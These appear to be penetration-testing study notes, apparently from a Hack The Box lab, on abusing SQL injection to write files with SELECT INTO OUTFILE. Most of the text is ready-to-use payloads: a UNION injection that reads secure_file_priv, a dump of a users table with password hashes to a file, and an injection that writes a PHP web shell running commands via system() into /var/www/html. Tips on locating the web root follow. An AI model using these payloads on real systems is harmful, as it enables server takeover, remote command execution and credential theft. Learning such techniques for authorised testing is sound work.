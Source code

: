 
The <span style="color:rgb(255, 0, 0)">S</span><span style="color:rgb(255, 0, 0)">elect into outfile</span> statement can be used to write data into a file 

first we need to check if we are able to: 

We can check the <span style="color:rgb(255, 0, 0)">secure_file_priv</span> variable 
```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

but since we are using a union injection we need to look at it using a SELECT statement
variables and configurations are stored on the INFORMATION_SCHEMA database. 
we should find the variable in the global_variables table. This table has two columns: 
variable_name; variable_value

so our final query looks like this: 

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

in an injection it would look something like this 
```sql
' UNION SELECT null, variable_name, variable_value, null FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
as you can see we also need to fill in junk data to match the amount of columns

if the value is empty we should be able to read/write files to any location

------
SELECT INTO OUTFILE

if we have confirmed that we can write to a file we can use the following statements to write to files 

```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```shell-session
cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```shell-session
Pangulin@htb[/htb]$ cat /tmp/test.txt 

this is a test
```

this is how to write to a file in sql. 

And this is how to use it in an injection

```sql
' union select null,'file written successfully!',null,null into outfile '/var/www/html/proof.txt'-- -
```


-----
Wite a webshell

```php
<?php system($_REQUEST[0]); ?>
```

```sql
' union select null,'<?php system($_REQUEST[0]); ?>', null, null into outfile '/var/www/html/shell.php'-- -
```

we have set the parameter to 0 so to execute a command we need to set ?0="command"

(to find the shell.php after upload just look for /shell.php (not /var/www/html/shell.php))

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

we might find information about the base web directory by looking at where the default .php site (index.php for example) is beeing served from and add that to the end of the regular default path 